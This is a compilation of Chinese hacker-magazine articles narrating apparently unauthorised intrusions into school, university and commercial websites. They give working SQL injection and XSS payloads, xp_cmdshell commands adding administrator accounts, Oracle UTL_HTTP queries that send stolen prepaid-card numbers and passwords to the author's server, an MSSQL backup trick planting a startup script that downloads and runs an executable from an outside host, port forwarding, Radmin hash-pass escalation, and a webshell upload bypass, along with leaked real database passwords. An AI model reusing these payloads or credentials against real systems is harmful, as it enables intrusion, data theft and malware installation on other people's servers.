    id=cint(Request.QueryString("id"))
end if
set temprs=conn.execute("select menuname from wymenu where id="&id)
menuname=temprs("menuname")
set temprs=nothing
%>
```

Showclass.asp 和 display.asp 文件处理的都一样的，如图2。再看下 News.asp 文件：


```asp
<%
dim id
id=request("id")
set rs=server.CreateObject("adodb.recordset")
rs.open "select * from news where id="&id,conn,1,3
lm=rs("lm")
%>
```

变量 id 什么都没有过滤就放入数据库查询，造成了注入漏洞。分别提交 and 1=1、and 1=2 的界面不一样，如图4、图5。说明有注入漏洞，接下来就不说了，再看看其它文件。

### 二、跨站漏洞

主页上有个网上报名的连接，就是让我们远程报名。我看了此文件是怎么被 wsbmto.asp 文件处理的，它只对我们输入的 Email 格式作了检测，其他的什么也没有过滤就放入数据库了。

```asp
if Instr(email,'.')<=0 or Instr(email,'@')<=0 or len(email)<10 or len(email)>50 then
    response.write "<script language='javascript'>"
    response.write "alert('您输入的电子邮件地址格式不正确，请检查后重新输入！');"
    response.write "location.href='javascript:history.go(-1)'"
    response.write "</script>"
    response.end
end if
```

这是验证我们的 Email 的格式，但长度必须大于 10 小于 50，哈哈，并没有过滤什么。

```asp
set rs=server.CreateObject("adodb.recordset")
rs.open "select * from wsbm",conn,1,3
rs.Addnew
rs("zy")=request("zy")
...
rs("studentname")=request("studentname")
rs("parentname")=request("parentname")
rs("age")=request("age")
...
rs("fei4")=request("fei4")
rs.update
rs.close
set rs=nothing
response.write "<script language='javascript'>"
response.write "alert('报名成功!')"
response.write "location.href='wsbm.asp'"
response.write "</script>"
```

下面什么都没有过滤就写到数据库了。


我在 Email 表单里填入 `@@s.com<script>alert('跨站呀!')</script>`，其他的都是 `<script>alert('跨站呀!')</script>`。我只能在姓名里填 `<script>alert('姓名跨站呀!')</script>`，因为我的程序没有注册，只能在后台看到姓名。如图6、图7。

当管理员管理报名时候就会出现跨站，如图8。


网站下面有个留言本，它只过滤了“你的姓名”和“留言内容”里的脏话，并屏蔽留言内容中的 HTML 字符，其他的什么也没有过滤。接下来看怎么利用，在邮箱表单输入 `<script>alert('XIANG!')</script>`，在主页表单输入 `<script>alert('ZHAN!')</script>`，提交成功，并没有弹出来。看一下源文件，原来被屏蔽了，如下：

```html
<a href=mailto:<script>alert('XIANG!')</script>>alert('XIANG!')</script>"></a>
主页：<a href='http://<script>alert('ZHAN!')</script>' target='_blank'>
alert('ZHAN!')</script>'></a>
```

修改下就 OK 了，在邮箱表单输入：`"><script>alert('you!')</script><a`，在主页表单输入：`">http:///<script>alert('wang!')</script><a"`，提交后即可看到效果，如图9。


以上是我对前台的漏洞分析，再看看后台。后台有几个文件，如网站配置的处理文件 setupto.asp、公告管理 gonggao.asp 以及投票管理的处理文件 votesave.asp 都存在类似的漏洞，此外还有那个论坛也就不分析了，有兴趣的朋友可以去分析。

> 编辑点评：常规的漏洞，常规的利用，分析漏洞就是这么简单；这个系统还有其他不少漏洞，希望有人继续分析下。


## 刺网感科技——一个木马的隐匿妙招

- 从本文你可以学到：
- 注射漏洞的分析
- 提出问题

说实话，这套程序说起来应该还不错的！为什么呢？听我细细道来。

### 一、有注入却注入不了

首先，这个程序没有很明显的爆库、跨站什么的，至于注入呢？我们先来看下 view_person.asp 这个文件，关键代码如下：

```asp
uid=ReplaceBadChar(Trim(Request.QueryString("id")))
if uid="" then
    response.write("<SCRIPT language=JavaScript>alert('对不起，非法操作！');")
    response.write("javascript:window.close();</SCRIPT>")
    response.end
end if
set rs_person=server.createobject("adodb.recordset")
conn.Execute("update person set click=click+1 where id="&uid&"")
sql_person="select * from person where job<>'' and id="&uid&""
rs_person.open sql_person,conn,2,3
if rs_person.eof or rs_person.bof then
    response.write("<script language=JavaScript>alert('对不起，该用户不存在或已被删除！');window.location.href='index.asp';</script>")
    response.end
end if
```

呵呵，这里是有注入了，我们来看下有没有包含文件呢？嗯，头部中有个 sql.asp，我们看看它是怎么防注入的，里面的内容是：

```asp
<%
if a=1 then
%>
```

这个语句有什么作用呢？好像没起作用，我们用工具试试，看看，明显的注入嘛！如图1。


既然工具能干的话，我们就不用手工麻烦了，来注吧！可是问题来了，大家看图2，我用工具猜了几遍了，就是猜不出表来！


没办法，看数据库！打开一看，我呆了，如图3。

明明有常见的表，为什么工具会无能为力呢？不过，用明小子打开的这个数据库有些可疑，大家看图3中的第一个和第二个表，明显没有什么规律。用明小子也打不开，而且弹出个这样的对话框，如图4。


既然工具不行，那我们手工来看看（我手工本来就差，这回被逼的！），我们来到这里，在地址栏中输入 `http://127.0.0.1/job/view_person.asp?id=2 and (select count(*) from admin)<>0`，回车，没想到弹出个这样的对话框，如图5，手工也不行。

我们回到上面的 view_person.asp 文件中也没发现什么问题，疑惑中！


### 二、奇怪的数据库

大家已经看到刚才用明小子打开数据库时里面有两个奇怪的表，问了下 lenk，他说用 Access 打开看看。于是我又下了个 Access，打开一看，奇怪了，那两个表没有了，如图6。于是自己到网上转了下，没有发现什么可利用的，疑惑中！


### 三、精彩的后台

这里我们只谈它的验证，可这里让我们又见识了程序的安全意识的强大。我们来看它是怎么验证，关键代码如下：

```asp
Sub Main()
End Sub

Sub CheckLogin()
    AdminLoginCode=Trim(Request.Form("AdminLoginCode"))
    IF Trim(Request.Form("Verifycode"))<>Trim(Session("Verifycode")) then
        response.write("<script language=JavaScript>alert('登录失败\n\n验证码有误，请重新输入！');")
        response.write("this.location.href='Login.asp'</script>")
        Response.End
        exit Sub
    end if
End Sub
```

> LCX

估计这期出来的时候，大家的圣诞和元旦都过了吧。无论怎样祝大家节日快乐！新年有新进步。新的一年对我来说，不是大了一岁而是老了一岁，我能明显感觉到随着年龄的增长，我的冲劲热情已慢慢降了下来，不再狂热了。用同样的话说，我的这把人慢慢地都生锈了。愿各项坚定年轻人的心，愿大家珍惜现在的光阴，在年轻还有狂热爱好的情况下，多多研究新技术，带领中国的安全领域上一个新的高度。我们的杂志也愿意在新的高度上做一个台阶供大家前进。

## 对 XX 广播电视大学的一次渗透

**本文重点是要学会作者的入侵思路**

因为我们学校和广播电视大学共用一个校区，某天无聊想对广播电视大学主站进行渗透测试，无奈湖南广播电视大学的速度太慢了，就从湖南广播电视大学开始吧（如图1）。

页面很粗糙，所以感觉安全不会好到哪里去。渗透思路很重要，看到页面下面的学校导航，很多分站，心里窃喜，分站越多，安全就越难以兼顾到。逐一打开，发现目标，团委网站上的论坛很熟悉，BBSXP 7.00 Beta 2 ACCESS，试了下默认密码不行，试下默认数据库，OK，缺口出现了（如图2）。


默认数据库地址没有改变，这样的漏洞在学校网站很普遍，默认管理员密码、默认数据库密码等等，还是人的安全意识不到位。有了数据库，拖到本地，显示出管理员的用户名和 MD5 加密密码（如图3）。


直接拖到 http://www.cmd5.com/ 里，运气不错，破解出密码为 losthink，登录论坛后台（如图4）。


```asp
if EnableSiteManageCode = True And AdminLoginCode <> SiteManageCode Then
    response.write "<script language=JavaScript>alert('登录失败,\n\n您输入的后台管理认证码不对，请重新输入!');"
    response.write "this.location.href='Login.asp'"
    response.write "</script>"
    Response.End
    exit Sub
end if
```

就这一重关卡，可以说对后台做了很好的保护。拿到了后台管理员的密码后，还要你输入正确的后台管理认证码，强悍！貌似简单的代码下其实包含程序员的精心设计。如果有哪位高手解决了上面的两个问题，希望共享下！

网上查了下资料，得到了 2 种办法。直接发帖写入一句话木马，然后备份一句话，这个办法我测试过了，写入成功，备份出错，可是网上有人说可以成功，我就解释不了了；还有一个办法就是用数据库编辑软件在数据库里面写入一句话木马，然后在论坛上发帖上传附件，然后备份即可，但是我发现这个方法有缺陷，只能对于数据库大小小于 2M 的数据库使用，因为 2003 系统允许论坛上传的大小就在 2M 以内。我试过缩小数据库大小，耗费我不少时间还是无果，最后无意中想到了个思路——在网站配置中写入一句话木马（如图5），然后保存，在数据库管理里面备份数据库，最后用一句话木马的连接端进行连接，OK，搞定（如图6）。


已经拿到了 WebShell，现在剩下的就只是提权了，得到服务器权限。逛了下 WebShell 的可见目录，想到的几个提权的方法都不行。想想这么多站点，总有一个是用 MSSQL 的吧，嘿嘿，运气不错，在 `E:\sys_WWW_root\sys_site_dir\` 目录下发现了以下代码：`sql:Provider=SQLOLEDB.1;Server=(local);UserID=panson;Password=#!bnruj$metcweb2;Database=jiyedb;`，很明显这里暴露了 SQL 一个用户，用户名……

**编辑点评：**

这篇文章总的还是不错，只是提出问题和分析问题，并没有实质性地解决它。为什么还要刊登呢？小编看中的，是分析问题的思路和这种讨论问题的方式。作为一个类似征解的文章，希望更多的朋友找个时间研究下这个系统，把漏洞练练看，希望能看到更多的思路。

panson，密码是 `#[hrrtu}$metc*web2`，可惜不知道是怎么样的权限。对于这个密码，我想谁要是可以猜解到，他真是神了。可惜管理员的不小心，再怎么安全的密码也是于事无补。我用 SQL 连接器连接上去，发现是 sa 最高权限，用本地的 SQL 企业管理器连上去，发现 xp_cmdshell 没有删除，这下好办了。`exec master..xp_cmdshell 'a'`（a 指的是要执行的命令），我这里就是 `net user cf 123 /add & net localgroup administrators cf /add`，然后 3389 登录（如图 7）。


进去以后发现这台服务器是双网卡，61.187.10.76（210.42.192.7）。我习惯翻阅下硬盘，看有没有对自己有用的东西。那么有一个文件夹就很重要，`C:\Documents and Settings`，里面对于管理员账户的文件夹有很多有用的东西。比如我这里翻到了管理员桌面有 FlashFXP，还有管理员远程终端里面留下的 IP 痕迹（如图 8）。


- 61.187.10.70（210.42.192.3）湖南广播电视大学网上学习平台
- 61.187.10.76（210.42.192.7）绝大部分分站以及 SQL 数据服务器
- 61.187.10.74（210.42.192.99）在线服务的
- 210.42.192.12（单网卡）SQL 服务器，存放着一部分分站的数据
- 210.42.192.2 主站，没开终端，也不是 MYSQL 服务器，就放一个首页
- 210.42.192.5（61.187.10.75）武汉广播电视大学图书馆

弄清拓扑以后，大家应该注意到 210.42.192.12。我上面说了存放了一部分分站的数据，那么 .12 这台的 1433 端口应该跟我得到权限的 7 这台机器有通信。啥都不说了，上传嗅探利器 Cain（具体用法前几篇《黑手》上有介绍哦），不一会时间，有结果了，如图 9。


看密码就知道，是一个很有经验的管理员。还是和第一台机器一样，xp_cmdshell 没删，开了终端，执行命令新建了一个管理员进去（如图 10）。


是台 2K 的机器，现在想想思路，这个只是当初的 SQL 服务器，没有 web，那么怎么样才能继续呢？渗透的时候得到管理员密码很重要，这个念头激发了我的想法了。这不是 2K 的机器吗？可以在内存中读取密码的，前提是管理员没有注销而直接关了终端。我用 `query user` 查看，管理员 panson 并没有注销（如图 11）。


马上上传工具读取密码，可是这台服务器上不了网，也不能外连，3389 在我本机上连不上去，这下可怎么办呀？想了想，我前面不是讲 7 的那台我在管理员桌面上发现了 FlashFXP 吗？那里画面不是有连接 12 的 FTP，共奋了，立马在 12 这台机子上新建一个 FTP 用户，微软自带的 FTP，然后用了 7 的那台连，很成功连上去了。可是上传却老是失败，原来是自带的 FTP 有权限的区分，在新建的 FTP 用户那里勾选写入权限，OK，成功上传了 MT 上去（如图 12、图 13）。


现在就输入 `mt findpass` 来获取管理员密码，可只是对 2K 的系统有效。对于 2003 的，得抓取 hash 来破解。不过我觉得，碰到这台机子的这种管理员，破解密码的可能性不大。你看一个个密码（如图 14）……cf 是我建立的，panson 就肯定是管理员了，密码出来了。而这个 C 段基本就这个管理员，而且终端不是 3389 就是 99。大家可能说，登录上去就是了，可是大家发现了一个问题没有？管理员密码的最后那个数字不觉得有些特别吗？其实那个数字是 IP 的最后一位，不细心发现，还真难想到，剩下的就轻车熟路了（如图 15）。


## 后记

渗透的时候，注意信息的收集。比如我在 3 这台机器上发现了 FlashFXP，里面大部分密码很简单，估计用户名和密码都一样，3、7 这个数字而已。可是我发现了连 12 的用户名是 panson，密码很长，那时想会不会是终端密码呢？上传了个星号查看器上去，成功得到密码（如图 16）。虽然这个密码不是终端密码，可是搜集的信息指不定在什么时候可以派上用场，不是吗？整个过程很简单，可信息的搜集却帮了我很大的忙，就把整个思路写了下来。菜鸟朋友们如果可以学到什么，我就感激之至了。我在黑手论坛的 ID 叫冷焰。


**编辑点评：** 从一个 bbxp 的数据库默认下载漏洞竟然导致了整个内网的沦陷，真是千里之堤，溃于蚁穴。这篇文章的好看处是看作者如何抽丝剥茧，细心收集信息，一点点蚕食内网。当然管理员较弱的安全意识和服务器配置帮了作者的大忙，也就是谚语说的不怕错。不过文章提到密码很复杂，破 HASH 估计不可能，这点是不对的，WINDOWS 的 HASH 是必破的。现在有一个叫彩虹表的程序，破本文的密码我估计只需要 3、4 小时吧。

## 偏空取经
### ——利用 UTL_HTTP.REQUEST 对 Oracle 进行远程注入

从本文你可以学到：

利用 UTL_HTTP.REQUEST 对 Oracle 注入的一个方法。

Oracle 在 V7.3.4 后加入了 utlhttp.sql 包，这个包使 SQL 和 PL/SQL 能够通过 HTTP 协议访问 Internet 资源。它的 sql 文件在 `[ORACLE_HOME]/rdbms/admin/utlhttp.sql` 下。安装了这个包后，数据库将添加 `utl_http.get_response`、`utl_http.read_text`、`utl_http.request` 等函数，其中最吸引我们的当属 `utl_http.request`。`utl_http.request` 的作用是打开一个 URL，并返回该 URL 内容的前 2000 个字节。以下是关于它的说明：

```sql
utl_http.request(
  url IN VARCHAR2,
  proxy IN VARCHAR2 DEFAULT NULL,
  wallet_path IN VARCHAR2 DEFAULT NULL,
  wallet_password IN VARCHAR2 DEFAULT NULL) RETURN VARCHAR2;
```

```sql
set serveroutput on;

DECLARE
  req utl_http.req;
  resp utl_http.resp;
  value VARCHAR2(32000);
BEGIN
  req := utl_http.begin_request('http://www.baidu.com/');
  resp := utl_http.get_response(req);

  value := utl_http.request('http://www.baidu.com/');
  dbms_output.put_line(value);

  utl_http.end_response(resp);
EXCEPTION
  WHEN utl_http.end_of_body THEN
    utl_http.end_response(resp);
END;
```

巧妙利用这个函数，我们可以在 SQL 注入时把 Oracle 数据发送到一个远程服务器。具体方法请看下面的注入实例。

## 【注入实例】

下面我们来讲一个注入实例。在我学校的收费系统中有这么一个 URL 链接：

`http://202.204.xxx.xxx/user/traffic/user_trafficlog_query_action.jsp?ipaddr=&user_name=050xxxxx&from_time=2007-10-20&to_time=2007-10-21`

其中变量 from_time 和 to_time 都没有经过过滤，而且是一个 date 型的日期变量。如果没有猜错的话，`user_trafficlog_query_action.jsp` 是这样写的：

```java
String query = "select * from table where time>=to_date('" + request.getParameter("from_time") + "','yyyy-mm-dd') and time<=to_date('" + request.getParameter("to_time") + "','yyyy-mm-dd') and ipaddr='...";
```

**提交：**

```text
http://202.204.xxx.xxx/user/traffic/user_trafficlog_query_action.jsp?ipaddr=127.0.0.1&user_name=050xxxxx&from_time=2007-10-20&to_time=2007-10-21','yyyy-mm-dd') and 1=1 and rownum<3--
```


页面返回正常（如图 1），当提交：

```text
http://202.204.xxx.xxx/user/traffic/user_trafficlog_query_action.jsp?ipaddr=127.0.0.1&user_name=050xxxxx&from_time=2007-10-20&to_time=2007-10-21','yyyy-mm-dd') and 1=2 and rownum<3--
```

页面返回错误（如图 2），这也证明了我们前面的猜想是正确的。

现在，我们在自己的 web 服务器上写一个 `record.php`，内容为：

```php
<?php
$onlineip = $_SERVER['REMOTE_ADDR']; // 客户端的 IP
$a = $_GET['a'];

$f = fopen("record.txt", "a+");
fwrite($f, $onlineip . " " . $a . "\r\n");
fclose($f);
readfile("record.txt");
?>
```

再向 `user_trafficlog_query_action.jsp` 提交以下 URL（如图 3）：

```text
http://202.204.xxx.xxx/user/traffic/user_trafficlog_query_action.jsp?ipaddr=127.0.0.1&user_name=050xxxxx&from_time=2007-10-20&to_time=2007-10-21','yyyy-mm-dd') and rownum<3 and chr(1) in (SELECT UTL_HTTP.request('http://211.71.147.3/record.php?a=sys.login_user:'||sys.login_user) FROM USER_TABLES)--
```

这个语句的功能是查看当前连接 Oracle 数据库的用户名。提交后打开 `record.php`，可以看到以下内容（如图 4）：


`202.204.xxx.xxx sys.login_user:CNGAS4`

也就是说，Oracle 数据服务器 202.204.xxx.xxx 老实地把数据提交到了 `record.php`。现在，我们来看看 CNGAS4 的用户表，提交：

```text
http://202.204.xxx.xxx/user/traffic/user_trafficlog_query_action.jsp?ipaddr=127.0.0.1&user_name=050xxxxx&from_time=2007-10-20&to_time=2007-10-21','yyyy-mm-dd') and rownum<3 and chr(1) in (SELECT UTL_HTTP.request('http://211.71.147.3/record.php?a=TABLE_NAME:'||TABLE_NAME) FROM USER_TABLES)--
```

打开 `record.php`，可以看到大量的 `USER_TABLES`（如图 5）。

其中的一个表 `V_CHARGE_CARD` 吸引了我的注意。如果没有猜错的话，它一定是记录用户充值卡的表。先看看这个表含有什么字段，提交：

```text
http://202.204.xxx.xxx/user/traffic/user_trafficlog_query_action.jsp?ipaddr=127.0.0.1&user_name=050xxxxx&from_time=2007-10-20&to_time=2007-10-21','yyyy-mm-dd') and rownum<3 and chr(1) in (SELECT UTL_HTTP.request('http://211.71.147.3/record.php?a=V_CHARGE_CARD_cols:'||column_name||chr(124)||table_name||chr(124)||comments||chr(124)||lower) FROM all_col_comments where table_name='V_CHARGE_CARD')--
```

然后打开 `record.php`，看到以下内容（如图 7）：

`202.204.xxx.xxx V_CHARGE_CARD_cols:`
`SEQ||V_CHARGE_CARD||CNGAS4`
`202.204.xxx.xxx V_CHARGE_CARD_cols:`
`CARDID||V_CHARGE_CARD||CNGAS4`
`202.204.xxx.xxx V_CHARGE_CARD_cols:`

显然，CARDID、CARDPASS、FEE 分别记录的是充值卡的账号、密码和面额，这下有搞头了。提交：

```text
http://202.204.xxx.xxx/user/traffic/user_trafficlog_query_action.jsp?ipaddr=127.0.0.1&user_name=050xxxxx&from_time=2007-10-20&to_time=2007-10-21','yyyy-mm-dd') and rownum<30 and chr(1) in (SELECT UTL_HTTP.request('http://211.71.147.3/record.php?a=V_CHARGE_CARD:'||CARDID||chr(124)||CARDPASS||chr(124)||FEE) FROM V_CHARGE_CARD where fee>10 and rownum<30)--
```

再次打开 `record.php`，发现大量的充值卡账号、密码充斥了整个屏幕（如图 8）。

## 【总结】

UTL_HTTP.REQUEST 的存在无疑是一件振奋人心的事情。有了它，我们就可以摆脱那种页面显示一条记录、一次只能猜一个字节的低效注入方式，转而让数据库主动把数据“提交”到我们的服务器上。对于 Oracle 注入来说，这提供了一种非常直接而有效的带外获取数据的方法。

## 对母校的一次安全检测


在文中你可以学到：

db 权限下的提权方法。

大学生活是多么的美好呀。在校期间我以马克思列宁主义、毛泽东思想、邓小平理论和“三个代表”重要思想为指导，并坚持努力构造和谐社会。怀着这样的心情，我对母校的网站 `www.tianyi.org` 进行了一次安全性的检测：（一）

打开网站首页文件直接给我们带到了 `06news/default.asp`，这就是主页，用的动网新闻 .net 版。DvNews 版权信息都被改掉了，在网上看了看，这个程序只有评论那里可以跨站，当然可以提交代码挂马了。看了一下评论，好像被删了（如图 1）。


由于网站的目录比较多，我必须一个一个目录检查。发现一个招生程序的后台用户名称密码使用 `'or'='or` 可以进入，但是程序写得很简陋，没有可以利用的地方。还有很多目录没有看，那没有办法了，只有偷下懒。打开 AD，进入 `www.google.cn`，在高级搜索里面输入 `site:tianyi.org inurl:asp`，选择 100 项结果搜索，如图 2。


我查出了两个注射点，检测一下发现是 db 权限的，可以列磁盘目录，于是用 GetWebShell（ah56bug 大众版）备份一个带一句话木马的数据库。用客户端浏览器连接，成功得到 shell，才发现原来我们学校的网站是内网 IP，网站目录都不可写，只能看，有点郁闷。看来老师们也不是那么弱啊。网站没有 FTP，没有第 3 方软件，没有可利用的提权方法。这让我很苦恼，把 shell 给几个朋友看了一下，都说“没戏”。

过了两天又打开一句话木马在网站里面转，终于让我找到了可以写的目录 `zsgl`，是新弄没两天的目录。里面是一个欧亚学院的录取程序，可能是老师自己写的吧。发现目录没有设置权限可以上传，于是我上传了一个海洋 ASP 木马，如图 3。在天一图书管理系统的 `conn.asp` 里找到了 db 的连接密码（如图 4）。


如果是 sa 就好了，岂不拿下！突然记得 isto 有篇文章里写 db 权限可以差异备份 bat 文件提权，于是自己赶紧找了台装了 MSSQL 的肉鸡测试。经过我反复的测试，终于测试成功，注入代码如下：

```sql
alter database vpc set RECOVERY FULL--
create table tmp_db(a image)--
backup log vpc to disk = 'c:\bak.bak' with init--
insert into tmp_db(a) values
(0x130A0D0A6563686F2053657420503D6372656174654F626A65637428224D6963726F736F66742E584D4C4854545022293E6B2E7662730A6563686F20502E4F70656E2022474554222C22687474703A2F2F79706471652E636E2F742E657865222C30203E3E6B2E7662730A6563686F20502E53656E6428293E3E6B2E7662730A6563686F2053657420473D6372656174654F626A656374282241444F44422E53747265616D22293E3E6B2E7662730A6563686F20472E4D6F64653D333A472E547970653D313A472E4F70656E2829203E3E6B2E7662730A6563686F20472E577269746520502E526573706F6E7365426F64793A472E53617665546F46696C652022742E657865222C32203E3E6B2E7662730A6B2E7662730A740D0A)
-- backup log vpc to disk = 'c:\docume~1\alluse~1\「开始」菜单\程序\启动\bak.bat'
drop table tmp_db
```

上面那串 16 进制的内容是备份内容：

```bat
echo Set P=createObject("Microsoft.XMLHTTP")>k.vbs
echo P.Open "GET","http://ypdqe.cn/t.exe",0 >>k.vbs
echo P.Send()>>k.vbs
echo Set G=createObject("ADODB.Stream")>>k.vbs
echo G.Mode=3:G.Type=1:G.Open() >>k.vbs
echo G.Write P.ResponseBody:G.SaveToFile "t.exe",2 >>k.vbs
k.vbs
t
```

这行代码的意思是利用 `bak.bat` 写一个名为 `k.vbs` 的下载者并执行 `k.vbs`。它将下载 `http://ypdqe.cn/t.exe`，`t` 是执行 `t.exe`。这样当计算机重新启动后会自动执行我们的 `bak.bat`，并执行我们的木马（这方法我在 2000 系统测试不成功）。于是我用海洋 ASP 木马的数据库连接连接数据库（因为内网端口没有映射，不可以在外网连）成功，如图 5。按顺序输入上边写好的差异备份语句，如图 6。

完成后成功在启动目录里备份出了 `bak.bat`，用 ASP 木马下载下来自己运行一下，自己就中木马了。现在做的只要等就是了。很幸运，第 2 天我的木马就成功执行（如图 7）。这样就成功渗透了。

> **编辑点评：**
>
> 网上对 Oracle 数据库的注入研究比较少，多的还是前几年流行的对它的安全研究。我记得 k1o120 和 pt007 在 EST 上发表过系列关于 Oracle 注入的文章，大家可以搜索起来积累一定资料一起看，弄懂了后就基本对 Oracle 注入有个大体印象了。不过要深入研究的话，还是在本机装一个 Oracle，学习一下语法吧。整个服务器。上传 lcx.exe，在木马里执行 `lcx slave 我IP 51 127.0.0.1 3389`，在本地执行 `lcx listen 51 5000`，把 3389 映射出来连接到我的 IP 51 并转发到 5000，所以我只要连接 `127.0.0.1:5000` 就可以登录了，进去转了一下，原来就 3 个数据库。不过服务器很好，还是 IBM 的呢（*^-^*），嘻嘻……，如图 8 所示。

防范方法就是在图书馆的 conn.asp 数据库连接文件加入防注射语句，欢迎大家访问我的博客（www.ypde.cn，qq：9681029），希望能交些朋友。

## 编辑点评

利用 db 权限，写好 SQL 语句备份 bat 到启动目录是个方法，不过更好的思路是备份 hta 文件，利用 hta 文件来启动 bat，这样不会弹出黑框，可以做到无声无息。我以前只做过加用户的 hta，没有写过下载并执行的。做这个 hta 的 SQL 语句，只是需要注意一点，写成的 hta 里会有一两个乱码，处理一下即可，至于如何写，大家还是自己来吧。

> 从本文你可以学到  
> 如何利用 radmin 进行提权

## 一、简单拿到 webshell

前段时间，朋友扔给我一个站，好像是一个易经媒体站，让我帮他弄下这个站的源代码，大概看了下，主站没有什么安全问题，通过查看 IP 上绑定的域名，知道服务器上绑定了大概 10 多个域名，对所有的域名，用上传漏洞工具扫了一圈，发现其中一个站存在上传漏洞，地址是：http://www.xxxx.com/upfile_flash.asp，典型的动感购物商城的上传漏洞，利用名小于的 domain3.5 上传一个小马上去，成功拿到 webshell（如图 1）。

## Radmin 提权全下变态服务器

## 二、艰难提权

拿到 webshell 后，大致看了下服务器的设置，FSO 支持，WScript.Shell 不支持（如图 2）。FTP 连接服务器发现，FTP 竟然是用微软 FTP 服务，再看看还装了什么软件，在 C 盘程序文件夹里装了 MSSQL、动易插件，一定有站点用的 MSSQL 数据库，如果能弄到 sa 密码就有了。到网站根目录下，这个站数据库是 Access 的，其它站没有权限浏览，看样子每个站一点都没有独立的用户。看看服务器是否支持其它脚本文件，上传 aspx、php、pl、cgi、jsp，全试了一遍，结果都不支持，没办法。看看还有没有其它办法，用端口扫描器对服务器 1-6500 端口进行扫描，管理员除了利用网站后台对网站进行管理，还要备份网站或配置其它站点，绝对还有其它的管理方式。扫描结果显示开放了 21、80、2010，用远程桌面连了半天，提示连接错误（如图 3）。


看样子不是远程桌面开放的端口，试了 pcAnywhere 也连不上，难道是用 radmin 进行管理的？打开 radmin 管理器，填上 IP 地址和端口号，提示输入密码，原来是用 radmin 进行管理的，如果能弄到 radmin 的密码就好了。前段时间 radmin 出漏洞了，密码只在本地客户端进行认证，能弄到 radmin 加密 hash 值就有希望了。大家都知道 radmin 的密码是 32 位 MD5 加密，存放在注册表里，具体的表键值为 `HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server\Parameters\Parameter`，如果能读出来就 OK 了。现在 WScript.Shell 不支持，被删除了，海洋木马还有一个读取注册表键值的功能，看能不能读出 radmin 的键值。在注册表读取处填上 `HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server\Parameters\Parameter`，点读取，成功读到 radmin 的键值了（如图 4）。

如果 WScript.Shell 没有被删除，可以在 cmd 下导出注册表的键值（编者：似乎结果与上文图 2 不符，如果我没记错的话，海洋利用的就是 WScript.Shell 读注册表脚本）。


按网上的方法要进行本地破解，还要测试，比较麻烦，如果要看详细 radmin 本地破解过程，大家可以到网上找找，有教程的：我这里有个 hash 值版的 radmin 管理器（如图 5）。

高手对 radmin 进行破解，改成了密码处输入 radmin 的 hash 值就可以成功连接。webshell 里读取出来的值是 168,103,104,3,115,13,232,243,78,254,219,55,182,155,165,40；这些值都是 10 进制，要把这些值转换成 16 进制，才能在 radmin 管理器 hash 值版里用。Windows 自带的计算器就有这个功能，选择“科学型”，然后把 10 进制的值输入进去，进行转换，一个一个转换，转换后的值是：a8,67,68,03,73,0d,e8,f3,4e,fe,db,37,b6,9b,a5,28，在 radmin 管理器 hash 值版里填上 `a8676803730de8f34efedb37b69ba528`，就可以成功拿到系统权限了（如图 6）。


加了个用户，本来想开 3389 的，不过，怕管理员发现，就用 radmin 进行管理吧，登录服务器，找到了朋友说的易经媒体站，打完包 300 多 M，然后，用迅雷下载回来，传给朋友，任务完成。

## 三、总结

其实这篇文章，主要就是讲 radmin 提权方法，radmin 本地密码欺骗的漏洞发现也有段时间了，大家有空要多多关注网上的新东西，在渗透的时候，一定会用到的。网络安全学习是一个循序渐进的过程，平常要多多积累，在短期，可能没有多大的效果，而且学习也没进展，很痛苦，但是，在遇到困难的时候，平常积累的东西就会发现用得着了。文章中有什么不懂的，可以来黑客手册论坛找我，我的 ID 号是 rabbitsafe，或加我 qq：3818718。

> [文章里提到的 hash 值版的 radmin 管理器已收录在本期光盘]

## 编辑点评

黑客手册前段时间发过一篇 radmin 提权的文章，不过是纯手工的。这个工具也有了，文章也写了工具利用方法，更方便大家了。

## eWebEditorNet 漏洞
### 之辽宁文亭艺术网的沦陷

从本文你可以得知  
eWebEditorNet 漏洞的利用方法

我已经有 3 个月的大学生活了，一直忙，所以没写文章。星期天正好整理资料，朋友发来一网站喊帮忙入侵一下，正好闲着，就开始了入侵之路。

## 一、初窥门径

网站是 `http://www.lnwlw.com`，程序是 .net 的（如图 1）。按一般的思路就是，先看有没有注射，用啊 D 和明小子都检测一次，都没扫出注射漏洞，然后看了一下比较隐藏的注射点，像搜索型的注射，依然不存在漏洞。注射失去效果，下面扫扫上传、数据库，配合 Google 一样也没什么收获，但是扫出后台来了。`http://www.lnwlw.com/admin`（如图 2），也没看出是什么程序。社会工程学也用了，还是没收获，aspx 程序我也不熟悉，所以又失败了。入侵暂时陷入了困境。


## 二、柳暗一村

下面我来看看旁注，用明小子扫一下，就 2 个域名，还有一个是辽宁文学艺术音乐站，这种音乐站很简陋，还整合了一个留言板，也没发现注射。再来找找上传漏洞，主页有很多链接是带图的，随便点一个进去，直接看 IE 的状态栏也可以（如图 3），主要是看图片的绝对地址，对着图片点属性也行。我习惯用迅雷下载所有链接（如图 4）。看到图片属性，马上找出 eWebEditor 的登录地址，默认的地址 `http://www.lnyx.org/eWebEditor/admin_login.asp`，用默认密码 admin 居然通过，狂高兴。进去后马上拷贝模板，改上传类型为 cer，但是结果让我大吃一惊：权限不够，设置的是只读权限（如图 5）。


## 三、膝斩祥云

真扫兴啊，居然有权限设置，那么还是把目标回到主站上面去吧，兴许主站上也有 eWebEditor。既然 80 不好入侵，先扫扫主机有没有什么明显的漏洞，拿上 x-scan 就开扫（如图 6）。


就扫出 3 个开放端口，希望又破灭。继续回到主站的 Web 程序看，接下来只能看看是否存在别的程序，继续在 Baidu 里面 `site:www.lnwlw.com`，找找别的程序。忽然一个亮点，look（如图 7）！


看到了 eWebEditorNet 程序，正好想起以前拿到过一个这种程序的 0day，今天正好派上用场了。0day 也不知道公布了没，这里简单说说原理（蝈蝈：网上有了的，可以搜索到）。

```html
原理：eWebEditorNet/upload.aspx 文件：
<form id="myform" method="post" encType="multipart/form-data" runat="server">
<INPUT id="uploadfile" style="HEIGHT: 18px" type="file" size="28" name="uploadfile" runat="server">
<asp:linkbutton id="btnUpload" runat="server"></asp:linkbutton></form>
<script language="JavaScript">
// 上传表单已嵌入完成
try {
    parent.UploadLoaddel();
} catch(e) {}
</script>
```

这个文件只是简单地对文件 ID 进行验证，只要构造 `javascript:btnUpload.click();` 就满足条件。下面开始利用，打开 `eWebEditorNet/upload.aspx`，选择一个 cer 文件（如图 8）。再在 IE 地址栏里面输入 `javascript:btnUpload.click()`，回车就得到 shell 了。查看源码就可以看到上传 shell 的地址（如图 9）。


